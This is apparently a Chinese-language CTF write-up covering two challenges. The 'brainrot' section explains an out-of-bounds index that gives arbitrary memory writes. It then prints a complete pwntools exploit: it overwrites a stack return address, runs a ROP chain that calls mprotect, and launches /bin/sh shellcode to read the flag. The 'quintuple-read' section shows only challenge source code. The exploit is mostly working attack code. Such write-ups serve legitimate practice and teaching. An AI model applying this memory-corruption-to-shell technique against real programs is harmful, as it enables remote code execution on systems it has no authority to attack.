



申请的是 0x40 但是实际上 我们可以控制 idx<=`0x4000000000000010`,只要知道偏移就可以任意地址修改


本来想直接修改stack 上返回地址的，尴尬的是 stack 在 `0xa000000000+xxx`​ 比`0xc000000040`堆地址要低，没法修改，我们只能控制 正索引，没法控制负索引，



不过幸运的是我发现了 每次自增的数值 ，它也在堆上



提前构造好一个值 然后让 指针的高位 0xc0  加上后 变更成 0xa0 或更小 就可以修改 stack 了



有思路了就写exp

```py
from pwn import *
#from ctypes import CDLL
#cdl = CDLL('/lib/x86_64-linux-gnu/libc.so.6')
s    = lambda   x : io.send(x)
sa   = lambda x,y : io.sendafter(x,y)
sl   = lambda   x : io.sendline(x)
sla  = lambda x,y : io.sendlineafter(x,y)
r    = lambda x   : io.recv(x)
ru   = lambda x   : io.recvuntil(x)
rl   = lambda     : io.recvline()
itr  = lambda     : io.interactive()
uu32 = lambda x   : u32(x.ljust(4,b'\x00'))
uu64 = lambda x   : u64(x.ljust(8,b'\x00'))
ls   = lambda x   : log.success(x)
lss  = lambda x   : ls('\033[1;31;40m%s -> 0x%x \033[0m' % (x, eval(x)))

attack = 'brainrot.challs.infobahnc.tf 1337'.replace(' ',':')
binary = './brainrot'

def start(argv=[], *a, **kw):
    if args.GDB:return gdb.debug(binary,gdbscript)
    if args.TAG:return remote(*args.TAG.split(':'),ssl=True)
    if args.REM:return remote(*attack.split(':'))
    return process([binary] + argv, *a, **kw)


#context(arch='amd64', log_level = 'debug')
context(binary = binary, log_level = 'debug',
terminal='tmux splitw -h -l 170'.split(' '))
#libc = context.binary.libc
#elf  = ELF(binary)
#print(context.binary.libs)
#libc = ELF('./libc.so.6')
import socks
context.proxy = (socks.SOCKS5, '192.168.31.15', 10808)
gdbscript = '''
b *0x00619363
b *0x61A098
#c
'''.format(**locals())
#import os
#os.systimport os
#io = remote(*attack.split(':'))
io = start([])


l = {
    'Meowl': 1,
    'Ballerina Cappuccina': 10,
    'John Pork': 100,
    'Job Job Job Sahur': 1000,
    'Odin Din Din Dun': 10000,
    'Orcalero Orcala': 100000,
    'Chimpanzini Bananini': 1000000,
    'Los 67': 67676767,
    }
k = list(l.keys())

base = 0xc000000040

def cy(addr):
    idx = (addr - base) // 4
    return idx


def add32(addr,num):
    idx = cy(addr)
    ru('> ')
    sl('1')
    ru(': ')
    sl(str(idx))
    ru(': ')
    sl(num)

def read32(addr):
    idx = cy(addr)
    ru('> ')
    sl('2')
    ru(': ')
    sl(str(idx))
    ru('generating $')
    data = int(ru('/')[:-1].decode())
    print(data)
    return data


ru('How large is your inventory? ')
size = (0x10000000000000000 + 0x40) // 4
sl(str(size))

# 
#def write64(addr, dest, src):
#    if addr < 0xc00000c1e0:
#        return
#    idx = (addr - 0xc00000c1e0) // 4
#    target = dest - src
#    if target > 0:
#        if (target > 67676767):
#            for i in range(target // 67676767):
#                print(i, idx)
#                steal(idx, b"Los 67")
#                # io.interactive()
#            target = target % 67676767
#        if (target > 1000000):
#            for i in range(target // 1000000):
#                print(i, idx)
#                steal(idx, b"Chimpanzini Bananini")
#            target = target % 1000000
#        if (target > 100000):
#            for i in range(target // 100000):
#                print(i, idx)
#                steal(idx, b"Orcalero Orcala")
#            target = target % 100000
#        if (target > 10000):
#            for i in range(target // 10000):
#                print(i, idx)
#                steal(idx, b"Odin Din Din Dun")
#            target = target % 10000
#        if (target > 1000):
#            for i in range(target // 1000):
#                print(i, idx)
#                steal(idx, b"Job Job Job Sahur")
#            target = target % 1000
#        if (target > 100):
#            for i in range(target // 100):
#                print(i, idx)
#                steal(idx, b"John Pork")
#            target = target % 100
#        if (target > 10):
#            for i in range(target // 10):
#                print(i, idx)
#                steal(idx, b"Ballerina Cappuccina")
#            target = target % 10
#        if (target >= 1):
#            for i in range(target // 1):
#                print(i, idx)
#                steal(idx, b"Meowl")
#            target = target % 1


sd = [1,0,100,1000,10000,100000,1000000,67676767][::-1]
def rrw(addr, dst):
    if dst == 0:
        return
    src = read32(addr)
    target = dst - src
    while(target):
        for i in range(len(sd)):
            if(target > sd[i] and sd[i]!=0):
                for j in range(target // sd[i]):
                    add32(addr,k[::-1][i])
                target %= sd[i]


read32(0xc0000000e0)


rrw(0xc000008088,0xffffffe0)


add32(0xc000002e14,k[1])

base = 0xa000000040

#add32(0xc000002e10,k[1])
x = [0xa000200fa8, 0xa000401fa8, 0xa000602fa8, ]
t1 = 0x630611

stack = 0
for i in x:
    if (read32(i) == t1):
        stack = i
        break
lss('stack')
#rrw(0xc000002e10,0x100)

#rsp = 0x000000000062a270 # pop rsp ; ret

rop_base = 0xc000008100 - 8
rsp = 0x0000000000647739# pop rsp; pop r13; ret
rsp = 0x0000000000647a59
rdi = 0x0000000000634cb7
rsi = 0x000000000064a120
rdx = 0x0000000000662b1a
syscall = 0x0000000000661ba0
rrw(stack,rsp)


rrw(stack+8,rop_base & 0xFFFFFFFF)
rrw(stack+0xC,0xc0)
rrw(rop_base+0x18+0x30, syscall)
rrw(rop_base+0x18+0x28, 1000)
rrw(rop_base+0x18+0x20, rdx)
rrw(rop_base+0x18+0x1C, 0xC0)
rrw(rop_base+0x18+0x18, 0x8148)
rrw(rop_base+0x18+0x10, rsi)
rrw(rop_base+0x18, rdi)

#gdb.attach(io,gdbscript=gdbscript)
ru('> ')
sl('3')
rax = 0x0000000000662865
sleep(0.1)
rop  = p64(rax) + p64(0xa)
rop += p64(rdi) + p64(0xc000008000)
rop += p64(rsi) + p64(0x1000)
rop += p64(rdx) + p64(7)
rop += p64(syscall)
rop += p64(0xc000008200)
rop += b'\x90' * 0x100
rop += asm(shellcraft.sh())
#pause()
sl(rop)

sleep(0.1)
sl('id;cat /flag*')

itr()

```

‍



‍

## quintuple-read

😅😅😅😅😅 

```python
from secrets import token_bytes
from functools import reduce
import subprocess
import tempfile
import os

FLAG = b'infobahn{this_is_a_test_flag}'
FLAGS_COUNT = 5

def xor(a, b):
    return bytes(x ^ y for x, y in zip(a, b))

flags = []
for i in range(FLAGS_COUNT - 1):
    flags.append(token_bytes(len(FLAG)))
flags.append(xor(reduce(xor, flags), FLAG))
assert reduce(xor, flags) == FLAG

blacklist = set()
for i, flag in enumerate(flags):
    with tempfile.TemporaryDirectory() as temp_dir:
        flag_path = os.path.join(temp_dir, 'flag.txt')
        with open(flag_path, 'wb') as f:
            f.write(flag)

        os.chmod(temp_dir, 0o755)
        os.chmod(flag_path, 0o644)

        try:
            user_input = bytes.fromhex(input(f"Enter your input as hex ({i+1}/{FLAGS_COUNT}):").strip())
            for byte in user_input:
                if byte in blacklist:
                    print("You already used " + hex(byte))
                    exit()
            blacklist = blacklist.union(set(user_input))

            p = subprocess.run(
                ['sudo', '-u', 'restricted', '/binary'],
                capture_output=True,
                input=user_input,
                timeout=2.0,
                cwd=temp_dir
            )

            print("stdout:", p.stdout)
        except Exception as e:
            print("Error:", e)
            exit()
```

‍
